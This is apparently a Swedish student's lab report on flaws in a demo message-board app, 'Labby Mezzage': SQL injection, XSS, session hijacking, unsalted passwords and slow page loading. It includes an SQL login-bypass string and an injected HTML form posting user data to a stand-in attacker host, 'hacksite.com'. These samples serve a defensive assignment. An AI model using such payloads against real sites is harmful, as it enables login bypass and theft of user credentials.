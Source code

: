 Hampus Jarleborn - HJ222HI

# Rapport

## Säkerhetsproblem

## SQL Injections

##### Beskrivning

SQL injections är när användaren skickar in egna SQL satser för att komma åt eller förstöra information på sida. Det krävs dock att sidan använder en databas, för annars finns det inget att skicka förfrågningar till.[1]

##### Följder

Som det står i texten över så kan en användare om SQL injections är möjliga komma åt saker som lösenord och annan känslig data, och använda dessa på de sett dom finner bäst. Och det är sällan eller aldrig bra.


#### I Labby Mezzage

I Labby Mezzage finns det möjligheter för att göra SQL injections, tillexempel kan man logga in som senaste inloggade användaren genom att skriva in vilken mail adress som helst som email och sedan skriva 1'or'1'='1 som då gör att det alltid blir true.

##### Förslag på lösning

Lösningen skulle jag säga är att istället för att skriva SQL sataserna som dom är gjorde i Labby Mezzage så bör man parametrisera dom istället för att konkatenera dom.
Man kan också skydda sig mot detta genom att använda storedprocedures och på så viss inte vissa SQL satsen.[1]




## XSS (Cross site scripting)

##### Beskrivning

Cross site scripting eller XSS är när en använadere lyckas stoppa in kod som hen själv har skrivit i din sida. Detta sker allt som oftast genom inputs. Och så kan hen föra in kod som kan ändrar vad sidan kan göra eller hur den ser ut.


#####Följder

XXS kan vara farligt då det gör så "hacker"-användaren kan stjäla information i form av känslig data om antingen andra användaren eller själva utvecklaren. "hacker"användaren kan också ändra vad sidan gör så att den blir obrukbar och på så sätt inte används och då tjänar ju inte utvecklaren några pengar.[2]

##### Förebyggande åtgärder

Det viktiga är att man validerar man ska alltid se till så att man säkrar att det som kommer in till sidan är det man vill att det ska vara och inget annat. Framförallt ska man se till så att man inte kan stoppa in taggar, varken script eller HTML. Man kan också göra en så kallad white-list validation där man kräver vissa tecken och eller längder på det användaren matar in.

#### I Labby Mezzage

I Labby Mezzage kan man inte mata in script taggar, men däremot så kan man mata in HTML och CSS. Detta gör att man kan påverka sidans utseende. Detta kanske låter harmlöst men man kan till exempel dölja fältet där man matar in meddelandet och sedan göra ett eget, som inte bara skickar ett meddelande till sidans server utan som också skickar vidare användarens sessionID och uppgifter. Det ända man hade behövt göra är att skriva detta i meddelande rutan

    <form action="hacksite.com/HackTheTHing.php">
      E-post:
   
     <input type="text" name="epost" value="exampel@ex.com">
     <br>
     Message:
    <input type="text" name="message" value="">
     <br><br>
     <input type="submit" value="Submit">
    </form>


##### Förslag på lösning

Som jag skrev ovan så borde man valdiera bättre och på så viss inte låta taggar hamna på sidan. ## Session Hijacking

##### Beskrivning

Session Hijacking är när en "hacker"-användare stjäler en annan användares session, detta kan tillexempel görs genom att man lurar dom att klicka på en länk som i det dolda skickar vidare information om deras session och eller cookie till "hacker"-användaren. Denne kan sedan mata in session/cookie IDet i sin egen sesson och på så sätt ta över den andra användarens inlogging. [3]

##### Förebyggande åtgärder

Först och främst så kan måste man precis som med XSS validera allt väldigt noga. Det är också viktigt att man förstör sessionen när användaren loggar ut för då så loggas även "hacker"-användaren ut.

#### I Labby Mezzage
I Labby Mezzage kan man med hjälp av XSS stjäla användarens sessions föratt sedan användadet för att logga in.

##### Förslag på lösning

Som jag skrev ovan om XSS så behövd det valideras mera. Sen så behöver man förstöra sessionen när användaren loggas ut så att även "hacker"-användaren loggas ut.


## Brist på salt

##### Beskrivning

Brist på salt kan göra maten smaklös. Nä men skämt och sido, om man inte haschar eller krypterar lösenord så sparas dom i klartext i databasen vilket gör att alla som har tillgång till den ser dom, både utvekclare och eventuella hackers. [4]


##### Förebyggande åtgärder

Att alltid se till att hascha alla lösenord så att dom inte sparas i klartext i databasen

#### I Labby Mezzage

vid inloggining så krypteras eller haschas lösenordet. Detta ser man om man kollar i /lib/login.js där vakren hasch eller salt används för att de kryptera lösenordet

##### Förslag på lösning

Är att tillexempel använda ett salt som man defingerar och sedan kör lösenordet igenom. [4]


## Prestandaproblem 

Det finns både inline scripts och inline css detta gör att sidan blir långsammare att ladda. Hade allt legat i en fil så hade det gått mycekt snabbare att läsa in. Nu måste webläsaren gå igenom hela sidan och rendera olika saker om varandra och det tycker inte webläsaren om. Man går också en bättre structur om man delar upp olika saker i oliak filer beroedne på innehåll.

Appliaktionen läser på alla sidor in två filer som heter MessageBoard.js och Message.js dessa används dock inte på alla sidor och detta gör att sidan skickar flemeddelanden. Detta gör att sidan skickar HTTP request ionödan vilket gör att sidan blir långsammare.

Det finns även javascriptfiler som laddas in i headern, så borde det inte göras. Dom borde laddas in i botten så att alla HTML renderas innan javascripten laddas. Sidan hade också blivit snabbare om javascriptfilerna var minifierade för då hade det helt enklet varit mindre kod att läsa in. Ett bra verktyg för detta är http://jscompress.com/ där kopierar man in sin kod och så renderar dom om den till en fil med bara en rad.

## Mina Egna övergripande reflektioner 

Denna uppgiften har varit väldigt rolig, det är ju lite av en pojkdröm att kunna hacka. Det har också varit väldigt givande att prova då det skapat en större förståelse för hur lätt det är att bryta igenom dålig kod. En sak som gör mig lite nervös var att jag tycket det var svårt att hitta prestanda problem. Och det känns som att jag bara har pekat ut dom självklar och jag misstänker att det finns fler. Men jag har läst på vilekt gjorde att jag hittade lite till och jag tror att jag kommer bli en bättre kdoare om jag fortsätter läsa på.

### Källor

[1] OWASP foundation, "Top 10 2013-A1-Injection", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A1-Injection [Hämtad: 1 december, 2015].

[2] OWASP foundation, "Top 10 2013-A3-Cross-Site Scripting", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS) [Hämtad: 1 december, 2015].
[3] OWASP foundation, "Top 10 2013-A2-Broken Authentication and Session Management", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A2-Broken_Authentication_and_Session_Management [Hämtad: 3 december, 2015].

[4] wikibooks, "Lösenordshantering - MD5 och salt", 19 februari 2010 [Online] Tillgänglig: https://sv.wikibooks.org/wiki/L%C3%B6senordshantering_-_MD5_och_salt [Hämtad: 4 december, 2015].
